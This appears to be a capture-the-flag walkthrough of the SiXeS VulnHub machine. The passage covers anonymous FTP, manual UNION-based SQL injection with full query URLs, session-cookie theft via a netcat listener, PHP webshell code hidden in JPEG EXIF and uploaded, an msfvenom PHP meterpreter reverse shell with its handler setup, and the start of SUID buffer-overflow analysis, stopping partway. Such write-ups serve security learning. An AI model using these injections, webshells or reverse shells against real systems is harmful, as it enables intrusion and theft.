# SiXeS

* [Overview](#overview)
* [Flag 1: Anonymous FTP](#flag-1-anonymous-ftp)
* [Flag 2: SQL injection](#flag-2-sql-injection)
* [Flag 3: XSS cookie stealing](#flag-3-xss-cookie-stealing)
* [Flag 4: Initial low privilege system access](#flag-4-initial-low-privilege-system-access)
* [Flag 5: Privilege escalation: SUID binary exploitation](#flag-5-privilege-escallation-suid-binary-exploitation)
* [Flag 6: Getting root](#flag-6-getting-root)
* [Personal remarks](#personal-remarks)

## Overview

Advanced-Hard Boot2Root machine intended to be used in a Workshop/CTF beside Shellmates Club.

The machine has 6 flags that will guide the challenger through it.

It covers web security, binary exploitation, and various misconfigurations.

Author:   [Hafidh ZOUAHI](https://www.vulnhub.com/author/hafidh-zouahi,651/)
Download:  [here](https://www.vulnhub.com/entry/sixes-1,380/) 

## Flag 1: Anonymous FTP

First thing we do once the machine is up and running is to use nmap to scan for open ports

One very nice thing is that it directly shows us the assigned IP address on boot, so we don't have to search for it :smile:


~~~
┌──(root💀kali-VM)-[~/SiXeS]
└─# nmap -A 10.0.2.5
~~~

Result:



This reveals 3 open ports: 
* 21/tcp FTP
* 22/tcp SSH
* 80/tcp HTTP

Seems to be a typical, but maybe a bit old-fashioned webserver setup (because of FTP). 

nmap directly detects that anoymous login to FTP is possible and there is a file called note.txt.

We connect to the ftp with the anonymous account (password can be empty or anything), download the file and it contains the first flag.



The 2Do-list inside the files gives some indication that the admin of the page is not completly finished with the setup yet. However he already did spend some thoughts about security and implemented "a firewall to block malicious tools". This might point to tools like dirb and sqlmap. We will probably have to deal with that in the next steps. However the remark that he probably also thinks about hiring a Pentester to check the page shows that he himself has some doubts if security level is sufficient - good for us!

## Flag 2: SQL Injection

Now we have a detailed look at the webpage: On first glance it appears to be a typical esports Team Fortress 2 clan webpage.



There is some basic CMS with articles / blog entries, plus some interesting sections like "contact" and especially the "Restricted Area" catches our attention.  

Also there is functionality which is not working (yet?), e.g. the Search box or "Categories" links.

Analysis of HTML sourcecode does not reveal anything interesting. So we try to identify weeknesses like LFI in $_GET variable "page": 



Unfortunately no success :cry:

Next thing would be to have a look at how the articles are referenced:

~~~
http://10.0.2.5/?page=post.php&id=3
~~~

This indicates that there is a database involved where articles are saved and have a unique ID, which can be specified in the URL.

Normally the first idea would be to use sqlmap for automated checking of the parameters in the URL for exploitable vulnerabilities. But by doing so, now we see what the owner probably meant with the note regarding the firewall: there seems to be some kind of mechanism which tries to prevents us from using such script-kiddy tools (same effect also for dirb when trying to enumerate the webserver).



So we have to go in manually ...

We start with the assumption that the code behind the vulnerable database query looks something like this:

~~~
$query = "SELECT <column1>, <column2>, ... , <columnN> FROM <table> WHERE id=$id";
~~~

If we're lucky this query can be used to perform a UNION SELECT injection. The basic idea is that we use the $id variable which is fully under our control via the $_GET parameter `&id=<value>` in the URL, to join a different table to the result in a way that it becomes visible in the resulting webpage. In order to make it work, it's crucial that we first determine how many columns exactly have been selected in the code. 

We can do this by running following querys and appending the list of "null"-values. 

~~~
http://10.0.2.5/?page=post.php&id=1 union select null,null              <- does not work
http://10.0.2.5/?page=post.php&id=1 union select null,null,null         <- works
http://10.0.2.5/?page=post.php&id=1 union select null,null,null,null    <- does not work
~~~
Query 1 and 3 return an empty page, probably because of an error in the DB-query. Query 2 works without error, so since we appended 3x null there, the original query should have 3 columns. 

Now that we know that, we can try to enumerate the db dictonary to identify the existing schemas, tables and their columns inside the db. Each database has "dictionary tables" for that purpose. Information about these tables can be easily found with google, depending on your db. E.g. for MySQL: https://dev.mysql.com/doc/refman/8.0/en/information-schema.html

Since MySQL / MariaDB is probably the most common database behind websites, it's a good guess to start here and as the first queries on these tables work, we know that really one of these is used here. 

Specificaly for this website we're very lucky, because the result of the queries is displayed directly on the page we get as result. It would be a lot more complicated if this wouldn't be the case and we had to do blind sql injection. But still our problem is that we can only extract one line of result per query.
So we have to run a lot of querys and increment the "limit x,1" in order request the result line-by-line to enumerate the whole table: 

So first we start to query information_schema.schemata to get a list of all existing schemas:
~~~
http://10.0.2.5/?page=post.php&id=1 union select null,schema_name,null from information_schema.schemata limit 0,1     => displays the original article 
http://10.0.2.5/?page=post.php&id=1 union select null,schema_name,null from information_schema.schemata limit 1,1     => displays "information_schema"
http://10.0.2.5/?page=post.php&id=1 union select null,schema_name,null from information_schema.schemata limit 2,1     => displays "mysql"
http://10.0.2.5/?page=post.php&id=1 union select null,schema_name,null from information_schema.schemata limit 3,1     => displays "performance_schema"
http://10.0.2.5/?page=post.php&id=1 union select null,schema_name,null from information_schema.schemata limit 4,1     => displays "sixes"
http://10.0.2.5/?page=post.php&id=1 union select null,schema_name,null from information_schema.schemata limit 5,1     => displays "sys"
http://10.0.2.5/?page=post.php&id=1 union select null,schema_name,null from information_schema.schemata limit 6,1     => displays nothing
http://10.0.2.5/?page=post.php&id=1 union select null,schema_name,null from information_schema.schemata limit 7,1     => displays nothing
~~~

Now we know that 5 schemas exist. Since the other 4 are default ones, we focus on "sixes". Now we have to identify which tables exist. 

~~~
http://10.0.2.5/?page=post.php&id=1 union select null,table_name,null from information_schema.tables where table_schema = 'sixes' limit 0,1     => displays the original article 
http://10.0.2.5/?page=post.php&id=1 union select null,table_name,null from information_schema.tables where table_schema = 'sixes' limit 1,1     => displays "articles"
http://10.0.2.5/?page=post.php&id=1 union select null,table_name,null from information_schema.tables where table_schema = 'sixes' limit 2,1     => displays "s3cr3t_t4ble_31337"
http://10.0.2.5/?page=post.php&id=1 union select null,table_name,null from information_schema.tables where table_schema = 'sixes' limit 3,1     => displays "users"
http://10.0.2.5/?page=post.php&id=1 union select null,table_name,null from information_schema.tables where table_schema = 'sixes' limit 4,1     => displays nothing
~~~

Now we know the table names. Let's have a look on "s3cr3t_t4ble_31337" and find out which columns it has: 

~~~
http://10.0.2.5/?page=post.php&id=1 union select null,column_name,null from information_schema.columns where table_name = 's3cr3t_t4ble_31337' limit 0,1      => displays the original article 
http://10.0.2.5/?page=post.php&id=1 union select null,column_name,null from information_schema.columns where table_name = 's3cr3t_t4ble_31337' limit 1,1      => displays "flag"
http://10.0.2.5/?page=post.php&id=1 union select null,column_name,null from information_schema.columns where table_name = 's3cr3t_t4ble_31337' limit 2,1      => displays nothing
~~~

So now we can easily extract the 2nd flag

~~~
http://10.0.2.5/?page=post.php&id=1 union select null,flag,null from sixes.s3cr3t_t4ble_31337 limit 0,1     => displays the original article 
http://10.0.2.5/?page=post.php&id=1 union select null,flag,null from sixes.s3cr3t_t4ble_31337 limit 1,1     => displays "shellmates{69f78fa6e9f49d180d145553ceecf87d}"
~~~



Digging further into the DB with the same method, we also find a table "users" with one single entry:

| username | password | role |
| --- | --- | --- |
| webmaster | c78180d394684c07d6d87b291d8fe533 | admin |

These might be the credentials required for logging in to the "Restricted area" of the page. Password is an md5 hash but unfortunately it seems to be too strong to break. Good indicator (at least for CTF Boxes) is that google does not find any clear text results. 
And unfortunately the SQL UNION SELECT attack does not provide us the possibility to INSERT or UPDATE any records in the database. So we are stuck here ... 

## Flag 3: XSS cookie stealing
Let's again focus on the webpage. We need to find a way to access the restricted area. We know that the username probably is "webmaster", but are stuck on the pw.



So let's have a look at the "Contact" page where we can fill a feedback formular and send it to the webmaster? 



Let's imagine:  
Someone should receive and read what we're sending here?  
Maybe this someone is logged into the restricted area while reading what we send?  

Let's see what happens if we are trying to trick him into opening an "malicious" link. 

On our machine we open a simple "webserver"
~~~
┌──(root💀kali-VM)-[~/SiXeS]
└─# nc -lvp 8080
~~~

On the contact formular we fill some garbage into the "Feedback" and "Short description" Field, but provide an URL to our webserver (e.g. `http://10.0.2.4:8080/asdf`) into the "Bug report? Paste the URL here".
Then we hit "Send message" and wait for the webmaster to pick up our message.

And eventually the webmaster will click our link, connect to us and spoil his admin session ID.



Ok, that's probably not the most highly sophisticated  "XSS simulator", but anyway ...

We go back to Firefox, open the Restricted Area page, hit F12 for the Firefox develper tools, click on Storage -> Cookies and exchange our PHPSESSID with the one we received in netcat, 



Then we reload the page with F5 



and are logged in to see flag number 3! 

## Flag 4: Initial low privilege system access

The "Restricted Area" contains some basic functionality to upload images ... quite disappointing. But okay, the page is still "under construction". 

So we play arround with the functionality, try to upload some pictures (which works), try to upload some text files and other stuff (which does not work) and then we discover that we can upload pictures, although we renamed them to something else, e.g. to ".php". Okay, so it seems the upload filter is not really waterproof ...

So let's see what happens if we inject some php code into the EXIF fields of a jpg. Therefore we use the "exiftool" (`apt install exiftool` if you don't have it yet)

~~~
┌──(root💀kali-VM)-[~/SiXeS]
└─# exiftool -DocumentName="<?php echo '<H1>Huston we have a problem! </H1> '; ?>" smiley.jpg -o smiley1.php
    1 image files created
~~~

We upload the smiley1.php and are able to access it now in the /img/ subfolder of the page



Very nice! We found a way to execute custom php code on the target machine! 

So let's not waste any further time and prepare something more usefull. First we create the payload for meterpreter with msfvenom.
~~~
┌──(root💀kali-VM)-[~/SiXeS]
└─# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.4 LPORT=4444 -e php/base64 > meterpreter.php
~~~

For LHOST specify the local IP of your Kali Linux system (where the reverse connection should point to).



Now edit meterpreter.php and insert `<?php` in the beginning and `?>` at the end of the file. The meterpreter.php should contain 1 line with content similar to this:



If you're curious what's written there, you can try to base64 decode the string with [Cyberchef](https://gchq.github.io/CyberChef/) 

Now we have to enclose this string into another .jpg which we can upload.

~~~
exiftool -DocumentName="`cat meterpreter.php`" smiley.jpg -o smiley2.php
~~~

Once the file has been uploaded we have to launch meterpreter in listening mode before we should access the file in browser to trigger the malicious php code.

~~~
┌──(root💀kali-VM)-[~/SiXeS]
└─# msfconsole                                                                                       
                                                  
[...]

msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 10.0.2.4
LHOST => 10.0.2.4
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.2.4:4444
~~~

Once the "reverse TCP handler" has been started, access the uploaded smiley2.php in browser. 



If you receive message above, you successfully spawned a reverse connection with meterpreter, which allows us to work very comfortably on the target

With the following commands, we can open a shell and use it like we would have ssh'ed into the system:
~~~
meterpreter > shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
~~~

With the id command we find out that we are user "www-data". This is because our meterpreter / php webshell is a child-process which inherits privileges from the apache2 processes. 
~~~bash
www-data@sixes:/home/webmaster$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~
www-data essentially is a low privilege user which is intended to prevent anyone finding and exploiting security weaknesses in the webpage from doing something harmfull to the system.  

So we have to find a way to escalate into something more powerfull. From /etc/passwd we know that besides root, there is also a user "webmaster" existing on OS-level. In his $HOME we also found the low_user.txt file with flag number 4, so obviously we're on the right track here. 



Unfortunately that's the only meaningfull readable file in there...

## Flag 5: Privilege escalation: SUID binary exploitation

Now obviously we have to find a way to escalate our privileges to become "webmaster". Therefore we thoroughly enumerate the system, check all interesting config files, file permissions, installed software, etc ... 

Hint: follow a checklist like the classic but still great one from g0tmi1lk:
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

Eventually a non-standard SUID binary catches our attention:
~~~
www-data@sixes:/home/webmaster$ find / -type f -perm -4000 -exec ls -al {} \; 2>/dev/null
[...]
-r-sr-sr-x 1 webmaster webmaster 17320 Oct  3  2019 /sbin/notemaker
~~~



It's a custom binary (self coded?) which is executable by everyone, owned by webmaster and has SUID bit set. This means that this program inherits the privileges of webmaster during it's execution.

If we have a closer look with `strings` command to get a feeling what's contained inside and which logic might be behind, we see the following:

~~~
www-data@sixes:/home/webmaster$ strings /sbin/notemaker
[...]
gets
[...]
/home/webmaster/notes.txt
[...]
%d-%02d-%02d %02d:%02d:%02d ~-> %s said: %s
.---------------- Simple Note Maker v1.0 ----------------.
|                                                        |
|    Use this program to leave me some notes, and I'll   |
|                check them when I'm free!               |
|          (Because I'm a busy webmaster, hehe)          |
| Also, keep your notes below 256 bytes so I can easily  |
|                      Read them :)                      |
|             - 0x000c0ded, your webmaster.              |
`--------------------------------------------------------'
Start typing >> 
[+] Your note has been saved! Thank you :d
[...]
~~~

The picture we get is that notemaker was developed by webmaster so that everyone can send him messages which get written to /home/webmaster/notes.txt.
From looking into his home, we know that the file is protected in a way that only webmaster himself could write to it. That's why the SUID bit is required and makes sense. 
Everyone can run that binary to send a message, the binary will be executed with the privileges of webmaster and thus be able to write to /home/webmaster/notes.txt. 

The information that we should keep our note below 256 bytes, together with the fact that `gets` seems to be used in the program is a broad hint. `gets` in this case receives characters from the terminal, but is not able to verify if the variable it's writing to is big enough to store the complete result. If the result is bigger then the variable, bad luck, memory "behind" will simply be overwritten. 
We can utilize this with a buffer overflow - we intentionally write more than can be handled to manipulate the stack and take control the program flow.  

If we do it the right way, we will be able to execute our own commands as "webmaster".

Unfortunately this is not a trivial task, because [ASLR](https://de.wikipedia.org/wiki/Address_Space_Layout_Randomization) is active on the SiXeS VM.
~~~
www-data@sixes:/home/webmaster$ cat /proc/sys/kernel/randomize_va_space
cat /proc/sys/kernel/randomize_va_space
2
~~~ 

The value has the following meaning: 
~~~
0 – No randomization. Everything is static.
1 – Conservative randomization. Shared libraries, stack, mmap(), VDSO and heap are randomized.
2 – Full randomization. In addition to elements listed in the previous point, memory managed through brk() is also randomized.
~~~

Essentially the addresses of functions and memory areas differ with each execution of the binary. We can see that if we run the program multiple times with ltrace and compare the addresses mentioned for a specific function:

~~~
www-data@sixes:/home/webmaster$ ltrace /sbin/notemaker
[...]
setregid(33, 33, 0, 0x7f36164c8997)              = 0
[...]
www-data@sixes:/home/webmaster$ ltrace /sbin/notemaker
[...]
setregid(33, 33, 0, 0x7f2abf3d9997)              = 0
[...]
www-data@sixes:/home/webmaster$ ltrace /sbin/notemaker
[...]
setregid(33, 33, 0, 0x7f5d7879a997)              = 0
[...]
~~~

Since they differ in unforseen ways, we can't simpy use static addresses in our exploit. Therefore the whole process of exploit developing will become complicated. 

Let's start with downloading the binary for further analysis. Therefore we just close the meterpreter shell mode with ctrl + c and execute the following commands:



Next we do a static code analysis of the binary with ghidra and find out that essentially there are 2 functions. So let's learn what they do:

main function:  

